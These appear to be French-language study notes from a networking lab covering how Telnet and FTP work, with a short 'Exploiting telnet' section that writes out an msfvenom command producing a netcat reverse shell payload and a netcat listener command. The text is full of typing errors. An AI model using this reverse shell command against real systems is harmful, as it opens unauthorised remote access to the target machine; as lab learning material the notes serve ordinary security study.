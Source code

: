 ##### Comment fonctionne Telnet ?

L'utilisateur se connecte au serveur en utilisaant le protocole Telnet en exécutant la commande `temnet`. L'utilisateur execute ensuite des commandes sur le serveur via des commandes spécifiques au prompte Telnet.
Pour se connecter à un serveur telnet : `telnet [ip] [port]`.

### Exploiting telnet

##### Reverse Shell

Un "Shell" est une piece de code ou programme qui peut être utilisé pour permettre l'exécution  de code ou de commandes sur un device. Un "Reverse Shell" est un type de shell dans lequel la machine cible communique avec la machine attaquante. Ceette derniere a un listenning port qui reçooit les connexion, qui résulte en l'éxecution du code/commandes.

msfvenom génére un 'reverse shell payload'. Cela va générer et encoder unn reverse shell netcat. Voici notre syntaxe :

**"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"**

-p = payload
lhost = our local host IP address (this is **your** machine's IP address)
lport = the port to listen on (this is the port on **your** machine)
R = export the payload in raw format

Il faut ensuite lancer un listener netcat sur notre machine : `nc -lvp [listenning port]`. A noter que le listenning port est celui du payload donné par la commande précédente.

### Understanding FTP

File transfer protocol (FTP) est un protocole utilisé pour autoorité le transfert dee fichiers via un réseau. Celàà utilise un model client-serveur.

##### How does FTP work?

Une session FTP opère généraalmeent en utilisant 2 canaux :

- a command (sometimes called the control) channel
- a data channel

Le canal de commandes est utilisé pour transmettre les commandes et les réponses à ces commandes et le data channel est utilisé pour transférer les données.

Le client initie une connexion avec le serveur, le serveur validde les login credentials provided et ouvre la session. Lorsque la session est ouverte, le client peut exécuter des commandes FTP sur le serveur.

##### Active vs Passive

Le serveur FTP peut soit supporter des connexions actives, soit des connexions passives ou les deux :

- dans une connexion FTP active, le client ouvre un port et écoute. Le serveur doit est activement connecté avec lui.
- dans une connexion FTP passive, le serveur ouvre un port et écoute (passivement) et le client s'y connecte.
